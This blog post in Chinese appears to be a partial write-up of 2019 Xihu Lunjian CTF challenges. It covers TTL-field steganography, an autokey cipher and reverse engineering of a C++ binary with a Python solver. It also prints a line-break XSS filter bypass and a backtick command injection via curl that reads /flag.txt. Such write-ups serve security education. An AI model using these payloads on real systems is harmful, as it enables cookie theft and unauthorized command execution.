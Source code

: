 ```yaml
---
layout: post
title: "2019西湖论剑部分wp"
tags: [blog]
author: wqpw
---
```


web环境关了...  
第一个是储存型XSS，可以换行绕过过滤，然后打管理员cookie.

```html
<img src=x onerror
=alert(1)>
```

然后有一个无回显的命令执行，想到用curl

```shell
curl -X GET -i 'http://ip/index.php?`cat /flag.txt`
```

一个是简单的LFI漏洞利用.

还有一个是[.DS_Store泄露](https://github.com/lijiejie/ds_store_exp)和[.git泄露](https://github.com/lijiejie/GitHack)及zip已知明文攻击加[php伪随机数漏洞](https://www.openwall.com/php_mt_seed/).

还有一个[Google CTF](https://ctftime.org/writeup/10369)原题.

(其实搞出前两个...)

主要记下差点做出来的3个题.
[题目文件](/assets/1904055ca752dbcbdfe.zip)

## 奇怪的TTL字段

题目描述:

```text
我们截获了一些IP数据报，发现报文头中的TTL值特别可疑，怀疑是通信方嵌入了数据到TTL，我们将这些TTL值提取了出来，你能看出什么端倪吗？
```

![1](/assets/xhlj1.png)

统计后发现只有63,127,191,255四个数，**猜测对应00,01,10,11**.

处理好进行转换然后放16进制编辑器里，变成这样:

![2](/assets/xhlj2.png)

然后分析下这个新的文件，发现是六张图片.

![3](/assets/xhlj3.png)

然后再用foremost等工具处理一下，得到一张完整的图片.

![4](/assets/xhlj4.png)

扫码得到

`key:AutomaticKey cipher:fftu{2028mb39927wn1f96o6e12z03j58002p}`

用[http://rumkin.com/tools/cipher/vigenere-autokey.php](http://rumkin.com/tools/cipher/vigenere-autokey.php)输入key和密文得到flag.

![5](/assets/xhlj5.png)

## easyCpp

ida+f5看了看，用的全是标准库的函数，所以不难.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v3; // r15
  __int64 v4; // rdx
  __int64 v5; // rdx
  __int64 v6; // rdx
  __int64 v7; // rdx
  __int64 v8; // r12
  __int64 v9; // rbx
  __int64 v10; // rax
  __int64 v11; // rdx
  __int64 v12; // rbx
  __int64 v13; // rax
  __int64 v14; // r8
  __int64 v15; // r9
  __int64 v16; // rbx
  char v17; // al
  unsigned int *v18; // rax
  const char **v20; // [rsp+0h] [rbp-190h]
  signed int i; // [rsp+1Ch] [rbp-174h]
  signed int j; // [rsp+20h] [rbp-170h]
  char v23; // [rsp+30h] [rbp-160h]
  char v24; // [rsp+50h] [rbp-140h]
  char v25; // [rsp+70h] [rbp-120h]
  char v26; // [rsp+90h] [rbp-100h]
  char v27; // [rsp+B0h] [rbp-E0h]
  __int64 v28; // [rsp+D0h] [rbp-C0h]
  __int64 v29; // [rsp+F0h] [rbp-A0h]
  char v30[72]; // [rsp+110h] [rbp-80h]
  unsigned __int64 v31; // [rsp+158h] [rbp-38h]

  v20 = argv;
  v31 = __readfsqword(0x28u);
  std::vector<int,std::allocator<int>>::vector(&v23, argv, envp);
  std::vector<int,std::allocator<int>>::vector(&v24, argv, v4);
  std::vector<int,std::allocator<int>>::vector(&v25, argv, v5);
  std::vector<int,std::allocator<int>>::vector(&v26, argv, v6);
  std::vector<int,std::allocator<int>>::vector(&v27, argv, v7);
  for ( i = 0; i <= 15; ++i )
  {
    scanf("%d", &v30[4 * i], v20);
    std::vector<int,std::allocator<int>>::push_back((__int64)&v24, (__int64)&v30[4 * i]);
  } //scanf读入16个数 在数组v[30]和vector v24中
  for ( j = 0; j <= 15; ++j )
  {
    LODWORD(v29) = fib(j);
    std::vector<int,std::allocator<int>>::push_back(&v23, &v29);
  } //v23存入前16个斐波拉契数
  std::vector<int,std::allocator<int>>::push_back((__int64)&v25, (__int64)v30); //v25.push_back(v30[0])
  v8 = std::back_inserter<std::vector<int,std::allocator<int>>>(&v25); //vector<int>::iterator v8 = &v25
  v9 = std::vector<int,std::allocator<int>>::end(&v24); //v9 = v24.end()
  v29 = std::vector<int,std::allocator<int>>::begin(&v24); //v29 = v24.begin()
  v10 = __gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>::operator+(&v29, 1LL); //v10 = v29+1
  std::transform<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::back_insert_iterator<std::vector<int,std::allocator<int>>>,main::{lambda(int)#1}>(
    v10, //从v24.begin() + 1
    v9, //到v24.end() 即从第二个到最后一个
    v8, //按push_back顺序存入v25
    (__int64)v30); //main::{lambda(int)#1}的参数之一 相当于对v24第二个到最后一个元素调用main::{lambda(int)#1}
/*
参考 https://blog.csdn.net/jerryjbiao/article/details/7523110
*/
......
```

transform调用的匿名函数:

```c++
__int64 __fastcall main::{lambda(int)#1}::operator() const(_DWORD **a1, int a2)
{
  return (unsigned int)(**a1 + a2); 
}
```

所以v24是{1,2,3,...,16}的话，现在v25就是{1,3,4,...,17}

接着是

```c++
  std::vector<int,std::allocator<int>>::vector(&v28, v9, v11);
  v12 = std::vector<int,std::allocator<int>>::end(&v25);
  v13 = std::vector<int,std::allocator<int>>::begin(&v25);
  std::accumulate<__gnu_cxx::__normal_iterator<int *,std::vector<int,std::allocator<int>>>,std::vector<int,std::allocator<int>>,main::{lambda(std::vector<int,std::allocator<int>>,int)#2}>(
    (__int64)&v29, // [rbp-A0h]
    v13, 
    v12, 
    (__int64)&v28,  
    v14,
    v15,
    v3);
```

看了很久也没看懂`accumulate`和`main::{lambda(std::vector<int,std::allocator<int>>,int)#2}`干了什么......

所以先看看后面的
```c++
  std::vector<int,std::allocator<int>>::operator=(&v26, &v29); //v26 = v29
  std::vector<int,std::allocator<int>>::~vector(&v29);
  std::vector<int,std::allocator<int>>::~vector(&v28);
  if ( (unsigned __int8)std::operator!=<int,std::allocator<int>>(&v26, &v23) )
  { //比较v26和v23(前16个斐波拉契数)是否全部相等
    puts("You failed!");
    exit(0);
  }
  //下面就是输出flag
  //略
```

所以尝试动态分析，研究v29发生了什么变化.

linux下用gdb加载程序，输入layout asm查看汇编代码，在调用accumulate的指令上下下断点.

![6](/assets/xhlj6.png)

然后运行并输入1-16，到断点1时查看v29

![7](/assets/xhlj7.png)

由前面可知`$rbp-0xa0`的值v29是v24.begin()的值，是地址.

然后执行accumulate之后:

![8](/assets/xhlj8.png)

可知是把transform后的v25反转一下.  
大概是这个意思reverse(v25.begin(),v25.end());v29=v25;  
然后v26=v25并且比较v26和v23.

综上，我们需要16个数，满足从第二个数到最后一个数加上第一个数然后反转之后与前16个斐波拉契数一一对应.

于是我们可以写个脚本算一下

```python
def fib(n):
    if n == 0 or n == 1:
        return 1
    return fib(n-2)+fib(n-1)

v23 = [fib(i) for i in range(0,16)][::-1]
v23[1:] = map(lambda x: x-v23[0], v23[1:])
print str(v23).replace(', ','\n')
```

结果正确

![9](/assets/xhlj9.png)

